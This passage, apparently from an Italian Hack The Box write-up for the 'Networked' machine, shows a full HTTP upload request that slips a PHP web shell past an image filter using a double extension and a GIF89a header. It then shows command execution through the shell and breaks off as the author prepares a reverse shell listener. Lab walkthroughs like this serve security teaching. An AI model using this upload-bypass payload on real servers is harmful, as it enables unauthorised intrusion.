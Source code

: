 Invio la richiesta al Repeater e la modifico nel seguente modo:

```text
POST /upload.php HTTP/1.1
Host: 10.10.10.146
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------109821639018132880122530346327
Content-Length: 380
Origin: http://10.10.10.146
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------109821639018132880122530346327

Content-Disposition: form-data; name="myFile"; filename="test.php.png"
Content-Type: image/png

GIF89a;
<?php system($_GET[c]);?>

-----------------------------109821639018132880122530346327

Content-Disposition: form-data; name="submit"

go!

-----------------------------109821639018132880122530346327--
```

Invio la richiesta e visito il seguente indirizzo http://10.10.10.146/uploads/10_10_14_7.php.png?c=whoami:

<p align="center">
  <img src="/Immagini/Linux-Box/Networked/networked-3.png" />
</p>

**Funziona!**

Ora devo provare ad ottenere una shell.

Avvio quindi un listener sulla porta 1234 e invio una richiesta contentente il seguente comando:
